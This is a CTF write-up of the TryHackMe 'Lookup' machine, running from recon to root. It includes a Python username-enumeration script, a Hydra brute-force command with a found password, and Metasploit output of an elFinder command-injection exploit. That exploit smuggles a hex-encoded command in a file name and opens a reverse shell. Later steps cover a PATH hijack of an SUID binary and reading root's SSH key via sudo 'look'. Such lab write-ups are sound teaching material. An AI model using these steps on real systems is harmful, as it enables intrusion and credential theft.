

# Lookup



The following post by Abhishek Chaudhary is licensed under[ CC BY 4.0](http://creativecommons.org/licenses/by/4.0/?ref=chooser-v1)[ ](http://creativecommons.org/licenses/by/4.0/?ref=chooser-v1)

## Recon

We start with a Nmap scan and find two open ports. On port `22` we have SSH, and on port `80` we have an Apache httpd `2.4.41` web server.

<figure><figcaption></figcaption></figure>

## Web Access

The index page reveals a login page.

<figure><figcaption></figcaption></figure>

We are presented with a simple login form.

Trying some common credentials like `admin:admin` and `admin:password` doesn’t work, and SQLi attempts also fail.

At this point I was a bit stuck, I tried enumerating subdomains and brute-forcing directories and files, but nothing came up.

I even tried a brute-force on “admin” , but nothing worked!

But if we look closely at the website’s behavior, we can observe that it is possible to enumerate valid usernames based on the error we are getting from the website upon a failed login

<figure><figcaption><p>Trying admin:admin</p></figcaption></figure>

<figure><figcaption><p>Trying Cyberpunk:1234</p></figcaption></figure>

Lets Try username enumeration with this logic

#### Method 1 : Using Python

We can write a small python script that would help us enumerate valid usernames:

```python
import requests

# Define the target URL
url = "http://lookup.thm/login.php"

# Define the file path containing usernames
file_path = "/usr/share/seclists/Usernames/Names/names.txt"

# Read the file and process each line
try:
    with open(file_path, "r") as file:
        for line in file:
            username = line.strip()
            if not username:
                continue  # Skip empty lines
            
            # Prepare the POST data
            data = {
                "username": username,
                "password": "password"  # Fixed password for testing
            }

            # Send the POST request
            response = requests.post(url, data=data)
            
            # Check the response content
            if "Wrong password" in response.text:
                print(f"Username found: {username}")
            elif "wrong username" in response.text:
                continue  # Silent continuation for wrong usernames
except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}")
```

ChatGPT for the win! Note that the usernames file that I’m using is hard-coded into the script, so if you want to use another one, make sure you change the path to the file!

Now we can run the script and see if we can find any additional users besides `admin`

<figure><figcaption></figcaption></figure>

#### Method 2 : Using Intruder

We can capture POST request in burp suite add payload at place of username and In settings grep - username Then using this we also find same result

<figure><figcaption></figcaption></figure>

Then Try bruteforce again on user jose , this time it worked

```bash
                                                                                                                                                               
┌──(kali㉿kali)-[~/Desktop/TryHackMe/Lookup]
└─$ hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong"   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-24 06:10:25
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:Wrong
[STATUS] 1115.00 tries/min, 1115 tries in 00:01h, 14343284 to do in 214:24h, 16 active
[80][http-post-form] host: lookup.thm   login: jose   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-24 06:11:53

```

Looks like we have been re-directed to `files.lookup.thm`. Let’s add that to our hosts file and check it out.

We see it is the Version `2.1.47`.

<figure><figcaption></figcaption></figure>

With a little research we find an exploit to a `command injection` vulnerability.

## Shell as www-data

Using metasploit , we take shell access

```bash
┌──(kali㉿kali)-[~/Desktop/TryHackMe/Lookup]
└─$ msfconsole
Metasploit tip: Use the analyze command to suggest runnable modules for 
hosts
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search elfinder

Matching Modules
================

   #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                               ---------------  ----       -----  -----------
   0  exploit/multi/http/builderengine_upload_exec                       2016-09-18       excellent  Yes    BuilderEngine Arbitrary File Upload Vulnerability and execution
   1  exploit/unix/webapp/tikiwiki_upload_exec                           2016-07-11       excellent  Yes    Tiki Wiki Unauthenticated File Upload Vulnerability
   2  exploit/multi/http/wp_file_manager_rce                             2020-09-09       normal     Yes    WordPress File Manager Unauthenticated Remote Code Execution
   3  exploit/linux/http/elfinder_archive_cmd_injection                  2021-06-13       excellent  Yes    elFinder Archive Command Injection
   4  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection


Interact with a module by name or index. For example info 4, use 4 or use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection

msf6 > use 4
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set LHOST 10.8.6.102
LHOST => 10.8.6.102
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS files.lookup.thm
RHOSTS => files.lookup.thm
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run

[*] Started reverse TCP handler on 10.8.6.102:4444 
[*] Uploading payload 'FD7am0niD.jpg;echo 6370202e2e2f66696c65732f464437616d306e69442e6a70672a6563686f2a202e625355445277522e706870 |xxd -r -p |sh& #.jpg' (1962 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.bSUDRwR.php) ...
[*] Sending stage (39927 bytes) to 10.10.242.156
[+] Deleted .bSUDRwR.php
[*] Meterpreter session 1 opened (10.8.6.102:4444 -> 10.10.242.156:47974) at 2024-11-24 07:15:57 -0500
[*] No reply
[*] Removing uploaded file ...
[+] Deleted uploaded file

meterpreter > shell
Process 1051 created.
Channel 0 created.
python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 1: python: not found
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ cd /home
cd /home
www-data@lookup:/home$ ls -l
ls -l
total 4
drwxr-xr-x 5 think think 4096 Jan 11  2024 think
www-data@lookup:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root  root  4096 Jun  2  2023 .
drwxr-xr-x 19 root  root  4096 Jan 11  2024 ..
drwxr-xr-x  5 think think 4096 Jan 11  2024 think

```

Looking at the /etc/passwd file, we see that there is a user “think” and root.

We can take a look at think’s home directory:

<figure><figcaption></figcaption></figure>

There is a .passwords file here might be interesting, but we don’t have the permission to read it.

## Shell as think

Let’s search for SUID binaries:

```
find / -perm /4000 2>/dev/null
```

<figure><figcaption></figcaption></figure>

The `/usr/sbin/pwm` binary draws my attention, because its not there by default on Linux hosts.

This file is owned by root:

<figure><figcaption></figcaption></figure>

Let’s see what happens when we execute it:

<figure><figcaption></figcaption></figure>

Interesting. So this binary seems to execute the `id` command, and then extracts the username out of it, and then puts that username into `/home/<username>/.passwords` and tries to do something with it.

If the `id` command is not specified with it’s full path (/bin/id), it is found and executed via the `PATH` variable in our environment.

<figure><figcaption></figcaption></figure>

Let’s try to trick the program into executing a different `ID` command, one that would result in the `think` username to be extracted from the output.

We can add `/tmp` to our path:

<figure><figcaption></figcaption></figure>

And now create `/tmp/id` with the following content:

<figure><figcaption></figcaption></figure>

Let’s try re-running “pwm” :

<figure><figcaption></figcaption></figure>

Bingo, we tricked the binary into extracting `think` as the username, and we got back what seems to be a password list!

Let’s save that list to a file on our kali and try brute-forcing `think`:

<figure><figcaption></figcaption></figure>

Success! We can log in via SSH as think with the password

## Shell as root

Checking think’s sudo privileges, we can see that he can execute the `look` command as root:

We can check [GTFOBins ](https://gtfobins.github.io/)to see if we can exploit this somehow:

<figure><figcaption></figcaption></figure>

According to GTFOBins, we can use this binary to read files on the system, and since we can run this as root, we can read any file on the system!

The fastest win would be root’s private SSH key:

<figure><figcaption></figcaption></figure>

We can save the key to a file on our kali machine, and log in as root:

<figure><figcaption></figcaption></figure>

And that’s it! Lookup has been ROOT3D!

See you all next time :smile:


\
